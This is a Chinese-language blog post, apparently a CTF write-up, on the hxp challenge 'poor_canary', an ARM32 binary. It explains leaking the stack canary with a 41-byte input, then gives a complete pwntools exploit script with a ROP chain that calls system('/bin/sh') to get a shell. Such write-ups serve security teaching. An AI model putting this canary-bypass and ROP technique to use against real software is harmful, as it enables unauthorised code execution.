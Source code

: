```yaml
---
layout:     post
title:      绕过canary方法
subtitle:    
date:       2018-12-17
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> hxp题目poor_canary

 源代码如图

![1545020682275](F:\xineting.github.io\img\1545020682275.png)

arm32架构的题目

ida中分析

​      ![1545020712524](F:\xineting.github.io\img\1545020712524.png)

 

当时分析以为v7就是canary溢出的buf，不清楚canary保护会加一段canary4字节校验。及v9。

所以真实的v7=buf+‘\n’+校验  之后就是ebp和返回地址，我们arm的传参方法为：r0-r3 ，pc为我们的函数地址。

我们找到的rop链为：

![1545021078066](F:\xineting.github.io\img\1545021078066.png)

 所以我们可以构造如图所示的payload，

​             ![1545021104176](F:\xineting.github.io\img\1545021104176.png)

  sys和binsh可以在ida中找到。

所以我们现在只需要寻找我们的canary的值，即v8，我们还需要把最后的\n给覆盖，所以我们可以这么做

 ```python
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv(3)
 ```



 即先传41个a，这时候我们的canary就可以传过来了。

如图所示，我们把第41的地方‘0’覆盖为a，就可以打印出来canary的值了。	

 ![1545021892212](F:\xineting.github.io\img\1545021892212.png)

最后的脚本如图：

 ```python
from pwn import *
import sys
context.arch = "arm"
context.os = "linux"
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.endian="little"
bina=0x71eb0
sys=0x16d90
r0=0x26b7c
sh=process("./canary")
sh.recvuntil("> ")
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv()
canary=u32("\x00"+r)
print "canary = ",hex(canary)
buf  = "A"*40
buf += p32(canary)
buf += "B"*12
buf += p32(r0)
buf += p32(bina)
buf += "C"*4
buf += p32(sys)
sh.send(buf)
sh.recvuntil("> ")
sh.send("\n")
sh.interactive()
 ```



 


